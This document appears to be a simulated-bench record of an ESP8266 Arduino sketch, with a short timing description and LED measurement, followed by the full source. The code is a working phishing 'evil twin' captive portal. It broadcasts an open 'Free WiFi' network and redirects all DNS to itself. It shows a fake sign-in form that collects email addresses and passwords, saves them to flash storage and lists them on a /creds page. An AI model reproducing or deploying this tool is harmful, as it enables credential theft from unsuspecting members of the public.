
A sketch run on a simulated ESP8266 (NodeMCU). On the bench: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. The test bench sets the inputs (shaded band). Storage starts empty; what the sketch prints to the serial monitor is not drawn.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.7 s:

Timing chart, 0 to 7.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.50 s and LOW for 0.50 s, 10 changes in all, then stays HIGH, starting at once

The sketch:

sketch_sep7b.ino
```cpp
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <LittleFS.h>


#define SSID_NAME "Free WiFi"
#define SUBTITLE "Free WiFi service."
#define TITLE "Sign in:"
#define BODY "Create an account to get connected to the internet."
#define POST_TITLE "Validating..."
#define POST_BODY "Your account is being validated. Please, wait up to 5 minutes for device connection.</br>Thank you."
#define PASS_TITLE "Credentials"
#define CLEAR_TITLE "Cleared"


void readData();
void writeData(String data);
void deleteData();


const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1);

String data = "";
String Credentials = "";
int savedData = 0;
int timer = 5000;
int i = 0;
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer;
ESP8266WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;");
  a.replace(">", "&gt;");
  a.substring(0, 200);
  return a;
}

String footer() { return
  "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String header(String t) {
  String a = String(SSID_NAME);
  String CSS =
    "body { color: #333; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; text-align: center; background-color: #f9f9f9; }"
    "h1 { color: #ff6600; font-size: 2.5em; margin-bottom: 10px; }"
    "nav { background-color: #990033; color: white; padding: 20px 10px; text-align: left; }"
    "nav b { font-size: 1.5em; display: block; }"
    "input[type=text], input[type=password] { width: 80%; padding: 10px; margin: 10px 0; border: 1px solid #555; border-radius: 4px; box-sizing: border-box; }"
    "input[type=submit] { width: 50%; background-color: #3366cc; color: white; padding: 12px; border: none; border-radius: 4px; cursor: pointer; }"
    "input[type=submit]:hover { background-color: #ff6600; }"
    ".footer { margin-top: 20px; font-size: 0.9em; color: #666; }";

  String h = "<!DOCTYPE html><html>"
             "<head><title>" + a + " :: " + t + "</title>"
             "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
             "<style>" + CSS + "</style></head>"
             "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div><div>";
  return h;
}


String creds() {
  return header(PASS_TITLE) + "<ol>" + Credentials + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post>" +
    "<b>Email:</b> <center><input type=text autocomplete=email name=email></input></center>" +
    "<b>Password:</b> <center><input type=password name=password></input><input type=submit value=\"Sign in\"></form></center>" + footer();
}

String posted() {
  String email = input("email");
  String password = input("password");
  readData();
  Credentials = data + "<li>Email: <b>" + email + "</b></br>Password: <b>" + password + "</b></li>";
  data = Credentials;
  writeData(data);
  savedData = 1;
  return header(POST_TITLE) + POST_BODY + footer();
}

String clear() {
  String email = "<p></p>";
  String password = "<p></p>";
  Credentials = "<p></p>";
  data = "";
  savedData = 0;
  deleteData();
  return header(CLEAR_TITLE) + "<div><p>The credentials list has been reset.</div></p><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINK() {
  int count = 0;
  while (count < 5) {
    digitalWrite(LED_BUILTIN, LOW);
    delay(500);
    digitalWrite(LED_BUILTIN, HIGH);
    delay(500);
    count = count + 1;
  }
}

void readData()
{
  File file = LittleFS.open("/SavedFile.txt", "r");
  if (!file) {
    return;
  }
  data = "";
  int i = 0;
  char myArray[1000];
  while (file.available()) {

    myArray[i] = (file.read());
    i++;
  }
  myArray[i] = '\0';

  file.close();
  data = String(myArray);
  if (data != ""){
    savedData=1;
  }
}

void writeData(String data) {
  File file = LittleFS.open("/SavedFile.txt", "w");
  file.print(data);
  delay(1);
  file.close();
}

void deleteData() {
  LittleFS.remove("/SavedFile.txt");
}

void setup() {
  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP);
  webServer.on("/post", []() {
    webServer.send(HTTP_CODE, "text/html", posted());
    BLINK();
  });
  webServer.on("/creds", []() {
    webServer.send(HTTP_CODE, "text/html", creds());
  });
  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear());
  });
  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index());
  });
  webServer.begin();
  pinMode(LED_BUILTIN, OUTPUT);
  digitalWrite(LED_BUILTIN, HIGH);
  Serial.begin(115200);

  //LittleFS set up
  if (!LittleFS.begin()) {
    Serial.println("An Error has occurred while mounting LittleFS");
    delay(1000);
    return;
  }
  readData();

}


void loop() {
  if ((millis() - lastTick) > TICK_TIMER) { lastTick = millis(); }
  dnsServer.processNextRequest();
  webServer.handleClient();
  i++;
  Serial.println(i);
  Serial.println(savedData);
  if (i == timer && savedData == 1) {
    i = 0;
    digitalWrite(LED_BUILTIN, LOW);
    delay(50);
    digitalWrite(LED_BUILTIN, HIGH);
  }
  if (i > timer) { i = 0; }
}
```
